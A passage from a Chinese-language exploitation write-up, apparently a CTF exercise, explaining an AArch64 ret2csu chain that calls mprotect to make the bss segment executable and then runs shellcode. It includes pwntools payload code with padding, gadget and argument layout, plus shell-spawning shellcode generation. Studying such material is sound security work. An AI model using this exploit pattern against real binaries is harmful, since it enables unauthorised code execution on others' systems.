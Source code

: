 来一段一段的去分析，我们姑且先叫下面的汇编代码段为：gadget1、上面的汇编代码段为gadget2。

整体上来说ret2csu的过程就是，先从栈上将数据写入到寄存器当中，然后通过寄存器之间的传输将参数传入相应的寄存器中。通过分析上面的函数传递关系发现：sp+0x30位置是参数二、sp+0x38的位置是参数一、sp+0x20的位置是参数三。这样我们在第二个输入点输入数据的时候就可以调整一下数据的位置来将相应的参数传入到相应的寄存器当中。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-0d9c61f7a77783e672299cd761c2bddf61d15645.png)

还有一点就是在gadget2中，x19+1会和x20进行比较，需要满足x19+1=x20才能使程序不去跳转至loc\_400BAC.

然后需要搞清楚每个参数是什么，同样先回到mprotect本身

```python
int mprotect(const void *start, size_t len, int prot);
```

x0参数一，是bss段中shellcode的起始地址。

x1参数二，从shellocde起始地址开始赋予可执行权限的大小。

x2参数三，权限所对应的代码

x3跳转执行的函数地址

掌握到了对应的寄存器需要的参数，就可以根据传参的对应关系去寻找到相应的位置去写入对应的参数

参数一写入sp+0x38，参数二写入sp+0x30，参数三写入sp+0x20

在此之后开始分析栈内的情况：

分配给栈内变量的大小只有这么多，所以需要有72即0x48的垃圾数据来填充上。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-af1c5f365f0c485e65fa2c7f88b3f43dc476fc7a.png)

将返回地址设置成gadget1来将参数传入到寄存器里面，此时ret+8的地址为sp。按照前面所分析的位置信息我们不难得出payload的结构

```python
payload = 'a'*0x48
payload += p64(gadget1)#sp-0x8
payload += p64(0)#sp 填入垃圾数据即可
payload += p64(gadget2)#sp+0x8 填入执行完gadget1所要返回的地址
payload += p64(0x0)#sp+0x10 之后会传入x19+1和x20进行比较
payload += p64(0x1)#sp+0x18 传入x20与x19+1进行比较
payload += p64(mprotect_addr)#sp+0x20,传入寄存器x3中在执行gadget2的时候跳转执行（已经是在传参完成之后
payload += p64(0x7)#sp+0x28 函数mprotect的权限代码
payload += p64(0x1000)#sp+0x30 获得权限的范围
payload += p64(0)#垃圾数据占位
payload += p64(shellcode_addr)#最后返回到shellcode去执行
```

部署shellcode
-----------

利用第一个输入点，将shellcode写入到bss段中：

这里需要注意的使在利用pwntools进行shellcode生成的时候，不能习惯的使用x86框架下的生成方式shellcraft.sh()生成的默认是x86下的shellcode，在arm框架下去执行其实并不奏效，这也是我在做arm的时候踩到的一些坑。

```python
shellcode = asm(shellcraft.aarch64.sh())
payload = ''
payload += p64(mprotect)
payload += shellcode
sl(payload)
```
